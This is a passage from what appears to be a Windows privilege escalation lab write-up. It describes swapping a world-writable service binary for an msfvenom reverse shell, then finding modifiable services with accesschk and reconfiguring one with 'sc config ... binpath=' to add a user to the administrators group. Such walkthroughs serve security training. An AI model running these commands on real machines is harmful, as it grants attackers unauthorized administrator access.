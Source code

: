 - we see this file has write access by every body , we can simply generate with msfvenom a reverse executable and replace it , then start the service again :

![image](/assets/images/windowsprivescarena/20220425052507.png)

![image](/assets/images/windowsprivescarena/20220425052537.png)

![image](/assets/images/windowsprivescarena/20220425052548.png)

- we could also use the same exe from the registry escalation section

## Service Escalation - binPath

- we are after a service that has RW access for Everyone , we can search for it with :

```powershell
 .\accesschk64.exe -wuvc Everyone *
```

![image](/assets/images/windowsprivescarena/20220426032527.png)

- if we have the : `SERVICE_CHANGE_CONFIG`
- we can now leverage our privilege by writing a new configuration then start the service

```powershell
sc config daclsvc binpath= "net localgroup administrators user /add"
```
